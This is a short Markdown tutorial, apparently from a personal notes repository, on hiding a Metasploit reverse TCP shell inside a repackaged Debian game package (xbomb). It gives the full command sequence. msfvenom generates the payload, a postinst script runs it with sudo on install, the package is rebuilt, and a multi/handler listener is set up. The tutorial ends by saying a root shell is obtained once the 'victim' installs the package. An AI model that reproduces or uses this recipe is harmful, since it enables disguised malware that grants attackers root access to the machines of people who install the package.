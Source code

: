 ```yaml
---
title: Kali Linux - Reverse TCP (Linux)
---
```


# Kali Linux: Reverse TCP (Linux)

An example to hack a 64-bit debian system using `msfvenom` on Kali Linux.

1. Download a `.deb` installation file (like `xbomb_2.2a-1_i386.deb`).

2. Extract it

   ```shell
   $ dpkg -x xbomb_2.2a-1_i386.deb workdir
   ```

3. Now, in `workdir` there are two directories `usr` and `etc`, which will be copied to the system if installed. In `usr` there is a file `game/xbomb` which is an executable file.

4. Generate the payload with `msfvenom`.

   ```shell
   $ msfvenom -a x64 --platform linux -p linux/x64/shell/reverse_tcp LHOST=192.168.15.5 LPORT=443 -b "\x00" -f elf -o ./workdir/usr/games/xbomb_scores
   ```

5. Create directory `DEBIAN` and two files `postinst` and `control`.

   ```shell
   $ mkdir workdir/DEBIAN
   $ cat > workdir/DEBIAN/postinst << END
   #!bin/sh

   sudo chmod 2755 /usr/games/xbomb_scores && sudo /usr/games/xbomb_scores &
   END
   $ cat > workdir/DEBIAN/control << END
   Package: xbomb
   Version: 2.2a-1
   Section: games
   Priority: optional
   Architecture: amd64
   Maintainer: Ubuntu MOTU Developers <ubuntu-motu@lists.ubuntu.com>
   Description: A minesweeper game for Linux
   END
   ```

6. Create new debian package.

   ```shell
   $ dpkg-deb --build workdir
   $ mv workdir.deb xbomb_2.2a-1_x64.deb
   ```

7. Open an `msfconsole`, and open a `reverse_tcp` handler.

   ```shell
   $ msfconsole
   msf > use exploit/multi/handler
   msf > set PAYLOAD linux/x64/shell/reverse_tcp
   msf > set LHOST 192.168.15.5
   msf > set LPORT 443
   msf > run
   ```

8. Put the package in the victim machine and install it.

   ```shell
   $ sudo dpkg -i xbomb_2.2a-1_x64.deb
   ```

9. Then you will see the `msfconsole` get the session for command shell, with root previlege.
